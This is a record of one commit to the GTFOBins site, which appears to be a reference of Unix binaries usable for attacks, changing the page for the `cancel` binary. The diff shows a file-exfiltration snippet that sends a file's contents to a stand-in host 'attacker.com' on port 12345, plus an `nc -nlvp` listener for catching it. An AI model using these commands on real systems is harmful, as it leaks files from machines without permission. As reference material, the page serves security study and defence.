

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/cancel.md, in a window 1280 px wide. Shown: the top 467 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update cancel.md

```diff
--- a/_gtfobins/cancel.md
+++ b/_gtfobins/cancel.md
@@ -1,12 +1,10 @@
 ---
-description: |
-  `cancel` -u parameter can be used to transfer file contents to an attacker-controlled IP address.
 functions:
   file-upload:
     - description: Send contents of a file to a TCP port. Run `nc -nlvp $RPORT > "file to save"` on the attacker system to capture the contents.
       code: |
-        RHOST=attacker_ip
-        RPORT=attacker_port
+        RHOST=attacker.com
+        RPORT=12345
         LFILE=file_to_send
         cancel -u "$(cat $LFILE)" -h $RHOST:$RPORT
 ---
```
